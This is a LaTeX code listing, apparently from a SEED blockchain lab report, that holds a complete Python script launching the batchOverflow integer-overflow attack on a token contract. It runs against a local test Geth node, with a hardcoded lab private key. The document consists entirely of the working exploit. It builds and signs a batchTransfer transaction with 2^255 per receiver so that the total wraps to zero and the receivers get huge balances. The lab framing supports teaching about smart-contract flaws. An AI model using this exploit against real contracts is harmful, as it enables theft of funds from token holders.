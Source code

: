 \begin{lstlisting}[language=python, caption={Launching the attack (\texttt{launch\_attack.py})}]
#!/usr/bin/env python3

from web3 import Web3
import sys
import os

# Add the shared folder to sys.path
sys.path.append(os.path.abspath("../shared"))

import SEEDWeb3

# Connect to the Geth PoS node
web3 = SEEDWeb3.connect_to_geth_pos('http://10.151.0.71:8545')

# Use account[1] as the attacker
private_key = "6510652e04c9bcb471982164cf779fc0b624bb26bc3cfe5a8a54bddeba90d667"
attacker_account = web3.eth.account.from_key(private_key).address

# Load ABI and victim contract
abi_file    = "../contract/BatchOverFlow.abi"
victim_addr = "put address here"

contract_abi = SEEDWeb3.getFileContent(abi_file)
contract = web3.eth.contract(address=victim_addr, abi=contract_abi)

# Prepare the overflow value (2^255)
overflow_value = 0x8000000000000000000000000000000000000000000000000000000000000000

# Prepare the receiver list (must be 2 addresses for cnt=2 to cause 2^256 overflow)
receivers = [web3.eth.accounts[0], web3.eth.accounts[1]]

# Send the transaction
print("Launching batchOverflow attack...")
nonce = web3.eth.get_transaction_count(attacker_account)

transaction = contract.functions.batchTransfer(receivers, overflow_value).build_transaction({
    'from': attacker_account,
    'nonce': nonce,
    'gas': 500000,
    'gasPrice': web3.to_wei('10', 'gwei'),
    'chainId': 1337
})

signed_tx = web3.eth.account.sign_transaction(transaction, private_key)
tx_hash = web3.eth.send_raw_transaction(signed_tx.raw_transaction)

print("Transaction sent, waiting for block confirmation...")
tx_receipt = web3.eth.wait_for_transaction_receipt(tx_hash)

print(f"Attack completed. Transaction Hash: {tx_hash.hex()}")
print("Transaction Receipt:")
print(tx_receipt)

# Check the Virtual balance of the receivers account after the attack
balance_0 = contract.functions.getBalance(receivers[0]).call()
balance_1 = contract.functions.getBalance(receivers[1]).call()

# Print the balance
print("-\n----------------------------------------------------------")
print(f"Virtual Balance of {receivers[0]} in contract : {balance_0} wei ({web3.from_wei(balance_0, 'ether')} ETH)")
print(f"Virtual Balance of {receivers[1]} in contract : {balance_1} wei ({web3.from_wei(balance_1, 'ether')} ETH)")
\end{lstlisting}

